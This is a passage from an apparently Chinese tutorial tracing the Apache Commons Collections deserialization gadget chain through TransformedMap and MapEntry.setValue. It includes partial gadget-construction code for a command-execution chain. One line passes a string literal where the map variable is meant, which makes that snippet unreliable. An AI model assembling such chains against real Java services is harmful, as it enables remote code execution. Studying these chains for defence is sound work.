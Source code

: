 ```
chain.transform(null);
```

现在我们就需要去找到一个可用调用ChainedTransformer对象,触发其transform方法的地方了

看到TransformedMap类这里的checkSetValue方法

```
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

看看valueTransformer的构造函数

![image-20211130180926320](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211130180926320.png)

看来是可控的,但是仔细一看这个构造函数是protected,那应该是可以在类中回调的

不过在这个类里面还有另外一个方法

```
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```

修饰了应该Map对象,第一个参数是要修饰的Map对象,后面两个参数是Transformer接口的类的对象

然后直接new一个TransformedMap对象,这里可以直接这样传参进去

```
Map innermap = new HashMap();//创建一个Map对象,因为Map没有序列化接口,所以需要用到他的实现类Hashmap
innermap.put("value","key");//向里面传值,后面会提到为什么会有这一步
Map outmap = TransformedMap.decorate("innermap",null,chain);//调用静态decorate方法,把我们前面能够命令执行的gadget放进去,也就是chain作为参数传进去
```

这里能够调用TransformedMap的构造方法了,值也控制了,但是还要去找到触发checkSetValue的点

看看有哪些地方调用了这个方法

![image-20211201130756300](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20211201130756300.png)

看到只有一个setValue方法里面调用了这个checkSetValue方法

```
static class MapEntry extends AbstractMapEntryDecorator {

    /** The parent map */
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);
        return entry.setValue(value);
    }
}
```
